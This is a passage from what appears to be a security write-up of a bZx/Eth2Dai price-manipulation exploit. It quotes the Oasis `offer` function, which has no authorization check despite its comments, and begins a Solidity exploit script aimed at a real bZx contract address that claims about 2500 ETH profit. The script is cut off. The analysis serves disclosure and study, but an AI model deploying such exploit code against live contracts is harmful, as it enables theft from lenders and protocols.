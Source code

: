 Furthermore, we observe that even though the comments seem to suggest that only authorized users can call `offer(uint,ERC20,uint,ERC20)`, there's no authorization logic at all.

```text
// Make a new offer. Takes funds from the caller into market escrow.
//
// If matching is enabled:
//     * creates new offer without putting it in
//       the sorted list.
//     * available to authorized contracts only!
//     * keepers should call insert(id,pos)
//       to put offer in the sorted list.
//
// If matching is disabled:
//     * calls expiring market's offer().
//     * available to everyone without authorization.
//     * no sorting is done.
//
function offer(
	uint pay_amt,    //maker (ask) sell how much
	ERC20 pay_gem,   //maker (ask) sell which token
	uint buy_amt,    //taker (ask) buy how much
	ERC20 buy_gem    //taker (ask) buy which token
)
	public
	returns (uint)
{
	require(!locked, "Reentrancy attempt");
	var fn = matchingEnabled ? _offeru : super.offer;
	return fn(pay_amt, pay_gem, buy_amt, buy_gem);
}
```

While in practice lack of authorization is irrelevant as arbitrage bots will quickly fill any orders that can be automatically matched, in an atomic transaction we can create and cancel arbitrage-able orders and no bots will be able to fill them.

All that's left is to slightly modify our script from the previous attack to place orders on Eth2Dai instead of the OrderbookReserve. Note that in this case we will need to call both `order(uint,ERC20,uint,ERC20)` to submit the order to Eth2Dai without it being atomically matched, and then `insert(uint,uint)` in order to manually sort the order without triggering matching.

### **Demo**

The following script will turn a profit of approximately 2500ETH by:

1. Listing an order buying 1 DAI for 10 ETH, increasing the price from 0.006ETH/DAI to 9.98ETH/DAI.
2. Borrowing ETH from bZx using DAI as collateral
3. Cancelling all orders and converting all assets to ETH

```text
contract BZxOasisExploit is Script, Constants, TokenHelper, BZxHelpers {
    BZxLoanTokenV2Like private constant BZX_ETH = BZxLoanTokenV2Like(0x77f973FCaF871459aa58cd81881Ce453759281bC);
    
    uint constant private INITIAL_BALANCE = 250 ether;
    
    function setup() public {
        name("bzx-oasis-exploit");
        blockNumber(8455720);
    }
    
    function run() public {
        begin("exploit")
            .withBalance(INITIAL_BALANCE)
            .first(this.checkRates)
            .then(this.makeOrder)
```
